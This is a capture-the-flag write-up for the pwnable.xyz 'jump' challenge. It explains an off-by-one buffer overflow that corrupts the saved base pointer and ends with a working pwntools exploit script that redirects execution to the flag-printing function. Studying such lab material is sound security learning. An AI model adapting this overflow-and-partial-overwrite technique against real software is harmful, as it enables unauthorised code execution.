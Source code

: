 # Overview

```
Jump jump
The Mac Dad will make you jump jump
Daddy Mac will make you
jump jump
The Daddy makes you J-U-M-P

Menu:
1. J-U-M-P
2. How high
3. Ya you know me
>
```

Jump address is defined:

![image](https://user-images.githubusercontent.com/17574533/212992898-d3fd2013-0b76-4a55-8808-b4bca29260da.png)

By default it resets the program by jumping right after setting up the canary

`read_int8` is called to read user input

## Option 3
Prints the location of environment variables.

Decompiled in Ghidra:

![image](https://user-images.githubusercontent.com/17574533/212993116-fd7f5f00-0971-462c-84e3-417f4c8c964c.png)

Program output: 

![image](https://user-images.githubusercontent.com/17574533/212994648-1818400d-8353-443d-b00c-4f01c1daf209.png)


## Option 2
XORs the jump address with 2.

Decompiled in Ghidra:

![image](https://user-images.githubusercontent.com/17574533/212995268-a3f23c92-f493-4ef0-bdd1-268b6f4a98e3.png)

Program output (no printed output):

![image](https://user-images.githubusercontent.com/17574533/212995499-776e89d4-5023-49fc-83be-8db340218594.png)


## Option 1
Jumps to the jump address.

Decompiled in Ghidra:

![image](https://user-images.githubusercontent.com/17574533/212995750-f4531957-1a22-4ee8-a2ab-eeab8fd6fa37.png)

Program output:

![image](https://user-images.githubusercontent.com/17574533/212995841-fb421d87-d20f-44db-b075-f6bd4c77bfd2.png)


# Goal

Go to the `win` function which will print out the flag

![image](https://user-images.githubusercontent.com/17574533/213037865-b6596b60-50e1-4cfc-9ea7-ebc05b71ac57.png)


# Vulnerability

Buffer overflow: In `read_int8`, the `count` argument for `read` is not set properly. Should be 0x20 instead of 0x21.

![image](https://user-images.githubusercontent.com/17574533/213038159-b5f93215-9915-49bc-933b-6c8313ef6576.png)

This allows us to modify the lower byte of `main` RBP

| No Overflow | Overflow |
| - | - |
| ![image](https://user-images.githubusercontent.com/17574533/213045866-54eb17e0-241e-4f5c-a5c2-ca067c554089.png) | ![image](https://user-images.githubusercontent.com/17574533/213043169-95740bc8-3ee0-47a7-8319-b79dff99a74f.png) | 

# Observations

1. Option 1 jumps to `rbp - 0x8`:

![image](https://user-images.githubusercontent.com/17574533/213055337-62ffb1ad-1278-42e7-a696-bcfdfd54fe19.png)

2. After `read_int8`, the read value is stored in `rbp - 0x11`:

![image](https://user-images.githubusercontent.com/17574533/213055574-ecea95e6-e565-4216-800a-e362ade5ffcb.png)

3. The default jump address is `0x0000555555400ba0`

4. The win address is `0x0000555555400b77`

5. The distance between `rbp` and the environment variables is constant

By setting `rbp += 0x9` through buffer overflow, observation 2 will overwrite the lower byte of the jump address `rbp - 0x8`

This is enough since the win and default jump address only differs by 1 byte

# Exploit
1. Print the address of environment variables with Option 3
2. Calculate `rbp` of `main` = `envar_addr` - `offset`
3. Increase `rbp` by 9 through buffer overflow
4. Change lower byte of jump address to 0x77 (address of `win`)
5. Restore `rbp` through buffer overflow so the canary works properly
6. Jump to `win` with Option 1

`offset` is 248 on pwnable.xyz's machine.
- 376 on my WSL Ubuntu 22.04
- 296 on my Linode Ubuntu 22.04
- 264 on my new WSL Ubuntu 20.04

## Code

``` python
from pwn import *

p = remote('svc.pwnable.xyz', 30012)
rbp_offset = 248

p.sendafter(b'>', b'3')
env_addr = int(p.recvline().strip(), base=16)
rbp_addr = env_addr - rbp_offset
rbp_byte = rbp_addr & 0xff
win_byte = 0x0010b77 & 0xff

p.sendafter(b'>', b'A' * 32 + p8(rbp_byte + 9)) # Change rbp
p.sendafter(b'>', str(win_byte).encode()) # Write address to jump
p.sendafter(b'>', b'A' * 32 + p8(rbp_byte)) # Revert rbp
p.sendafter(b'>', b'1') # Jump

p.interactive()
```
